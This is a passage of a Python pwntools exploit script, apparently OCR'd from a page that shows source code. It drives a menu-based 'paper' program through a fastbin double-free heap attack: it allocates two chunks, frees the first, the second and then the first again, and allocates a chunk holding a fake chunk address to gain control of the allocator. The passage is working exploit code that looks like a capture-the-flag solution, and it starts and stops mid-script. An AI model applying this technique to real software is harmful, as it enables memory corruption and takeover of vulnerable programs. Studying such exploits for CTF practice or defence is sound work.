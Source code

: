     io.recvuntil('content:')
    io.sendline("first")
 >   
    # malloc second chunk
    io.recvuntil('delete paper\n')
    io.sendline('1')
    io.recvuntil('9):')
    io.sendline('2')
    io.recvuntil("ter:")
    io.sendline('48')
    io.recvuntil('content:')
    io.sendline("second")
 >   
    # gdb.attach(io,'b * 0x4008f8')
    # free the first chunk
    io.recvuntil("delete paper\n")
    io.sendline('2')
    io.recvuntil('9):')
    io.sendline("1")
 >   
    # free the second chunk
    io.recvuntil("delete paper\n")
    io.sendline("2")
    io.recvuntil('9):')
    io.sendline('2')
 >   
    # free the first chunk
    io.recvuntil("delete paper\n")
    io.sendline('2')
    io.recvuntil('9):')
    io.sendline("1")
 >   
    # malloc the first chunk
    io.recvuntil("delete paper\n")
    io.sendline('1')
    io.recvuntil('9):')
    io.sendline('1')
    io.sendline('48')
    io.sendline(p64(fakechunk))
>    
    # malloc the second and the first' chunk
    for i in range(2):
        io.recvuntil("delete paper\n")
        io.sendline('1')
        io.recvuntil('9):')
        io.sendline('1')
        io.recvuntil('enter:')
        io.sendline('48')
        io.sendline('malloc the second and the first* chunk')
    # malloc the fakechunk
    io.sendline("1")